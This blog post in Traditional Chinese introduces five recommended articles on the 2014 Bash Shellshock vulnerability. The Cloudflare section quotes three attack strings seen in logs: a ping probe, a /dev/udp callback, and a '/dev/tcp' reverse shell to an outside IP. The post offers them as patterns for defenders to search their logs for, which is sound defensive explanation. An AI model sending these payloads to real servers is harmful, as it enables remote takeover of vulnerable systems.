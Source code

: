 
當消息在線上與線下世界傳開之後，Shellshock 臭蟲的細節開始浮現。大家都在談論，工程師忙著修補伺服器、電腦、路由器、防火牆，以及其他用到有問題 bash 的電腦資源。幾乎每個地方都在修補。我知道許多我的讀者依然對 ShellShock 臭蟲感到困惑。對於他們來說，這是個任意代碼執行 (arbitrary code execution，ACE) 漏洞，這表示攻擊者可以在你有漏洞的伺服器上，執行他們的程式。這跟你有什麼關係？如果他們可以執行他們的指令的話，就可以對你的伺服器和業務予取予求。一開始他們可以停止你的伺服器、刪除檔案、偷取密碼並完全控制該機器、執行遠端操作。一般來說，任意代碼執行漏洞攻擊非常的複雜，需要對程式碼執行內部、記憶體配置、組合語言有著專家般理解才行，使得這些攻擊非常困難。


多謝了 Bash ShellShock 臭蟲，現在甚至是新手程式設計者也可以發動如此強大的攻擊，控制有漏洞的伺服器。舉例來說，由於 ShellShock 漏洞，任何人都可以僅僅透過發送 HTTP 要求來控制你的網路伺服器。雖然很嚴重，但所幸影響只限於那些伺服器端程式將用戶提供資訊傳遞給 Bash Shell 的伺服器。如果你的 Java 伺服器沒做這件事，你可能就不會受到這種攻擊影響。


順帶一提，假如你上週正巧到某個沒有網路的鄉村度假，對於 Bash Shell 裡的 ShellShock 臭蟲一無所知，這裡列出了五篇文章能告訴你有關這個 Bash 臭蟲的一切，從介紹它到駭客如何加以運用。甚至有些網站或工具，可以檢查你的伺服器是否受到 ShellShock 影響。你可以用這個網站檢查你的系統有沒有漏洞，並了解如何加以修補，以免於受攻擊風險。


###[深入 Shellshock：駭客如何利用它入侵系統](https://blog.cloudflare.com/inside-shellshock/)###


這是我在 ShellShock 問題上讀到最好的文章之一，我建議所有人最先讀這一篇。Cloudflare 很高竿地用簡單的話解釋了 ShellShock 臭蟲。讀完這篇之後，你就知道 () { :; }; 這些魔術字串是如何把你的伺服器控制權，交到遠在千里之外的駭客手上。Cloudflare 不僅迅速地修補好他們的伺服器，以保障其客戶權益，更讓人們了解此一重大漏洞。由於他們宣稱阻擋了威脅，並限制遭到濫用的殭屍程序和爬蟲，浪費他們用戶的頻寬與伺服器資源，這也有助於他們的業務。我之所以列出這一篇文章，還有一個理由。它使用了範例示範駭客如何看來無害的 HTTP 要求，來利用 bash shell 的 ShellShock 漏洞。CloudFlare 還放出了阻擋利用 ShellShock 的 WAF 規則。這個臭蟲在他們的記錄檔，有著某些共同的模式：


    () { :;}; /bin/ping -c 1 198.x.x.x;
    () { :;}; echo shellshock-scan &gt; /dev/udp/example.com/1234
    () { ignored;};/bin/bash -i &gt;&amp; /dev/tcp/104.x.x.x/80 0&gt;&amp;1


假如你是 CloudFlare 的客戶，你可以鬆一口氣了，不過你也可以用這些模式，看看你的網路伺服器上有沒有類似的東西。感謝  John Graham-Cumming 這麼棒的作品。你還在等什麼，趕快閱讀這篇文章吧。




###[關於 ShellShock Bash 臭蟲你必須知道的一切](http://www.troyhunt.com/2014/09/everything-you-need-to-know-about.html)###


Troy Hunt 是 Microsoft 在開發者安全的最有價值專家 (Most Valuable Professional)，他今年稍早曾針對 Heartbleed 臭蟲分享過類似資訊。Tony 擅長提供人們確切資訊，協助他們從誇大宣傳中剖析出真正的潛在風險。從介紹 bash shell 以及其用途開始，Tony 分享了這個臭蟲事實上為何， 以及其潛在的後果。除此之外，還有像是哪個版本的 Bash shells 會受影響，ShellShock 臭蟲何時首次被發現，風險會持續多久等。由於 bash 基本上是一種 UNIX shell，他也分析了 Microsoft 軟體堆疊在何種情況下也會受到該臭蟲影響。這篇文章最棒的地方在於，告訴你接下來可以做些什麼。他從系統管理者與消費者的角度，解釋了接下來的步驟。簡單來說，這篇文章就跟其標題一樣，就是關於 ShellShock Bash 臭蟲你必須知道的一切。


###[Bash 的 'shellshock' 臭蟲可能成為蠕蟲](http://blog.erratasec.com/2014/09/bash-shellshock-bug-is-wormable.html)###


Robert Graham 透過初步掃描評估了這個臭蟲的影響。他的掃描初步結果顯示出有多少系統僅於 80 port，或僅在根路徑的 "/" URL，或在沒有 Host 欄位時存有漏洞。他提出很棒的一點，就是 CGI 腳本如果有呼叫 bash，不論有多間接，也可能造成漏洞。他更提到在特殊 port 上的嵌入式網路伺服器，才是真正的危險所在，而且不只是 web，其他像是 DHCP 服務也會受這個臭蟲影響。


###[網際網路的 Bash 'shellshock' 掃描](http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html)###


這是 Robert Graham 最初做的掃描，也就是上一篇文章所討論的。現在惡意軟體正使用他的用戶代理 (user agent)，假裝是已知的掃描。Robert 的掃描是將一大堆 ping home 指令，塞進各種 CGI 變數裡，只為了看看這個 bash 臭蟲漏洞有多麼廣泛，但是這已足以在許多網站管理者間，造成小小的恐慌。這個掃描只發現了數千部系統 （因為有意的限制），不過已經顯示出 ShellShock 臭蟲的實際潛力。

